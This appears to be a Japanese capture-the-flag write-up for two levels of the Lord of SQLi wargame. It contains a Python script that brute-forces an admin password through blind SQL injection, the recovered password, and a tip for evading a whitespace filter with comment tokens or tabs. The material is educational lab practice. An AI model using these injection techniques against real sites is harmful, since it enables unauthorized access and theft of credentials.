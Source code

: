 ``` python
import requests
import string

url = 'https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php'

mycookie = {
    'PHPSESSID': '' # cookie
}

letters = string.digits + string.ascii_letters
ans = ""
for i in range(1, 9):
    for letter in letters:
        response = requests.get(url + "?pw=1' or id = 'admin' and substr(pw, {index}, 1) = \'{char}\'-- #".format(index = i, char = letter), cookies=mycookie)        
        
        if 'Hello admin' in response.text:
            ans += letter
            break
print(ans)
```

### 回答 
上記スクリプトを走らせると，295d5844と出てくる．  
これを使う．

``` sql
select id from prob_orc where id='admin' and pw='295d5844'
```

## wolfman

### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

### 考察
``` php
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
```
スペースが使えないので， "/**/"やタブを代わりに使う．
あとはidをadminにしてあげるだけ．
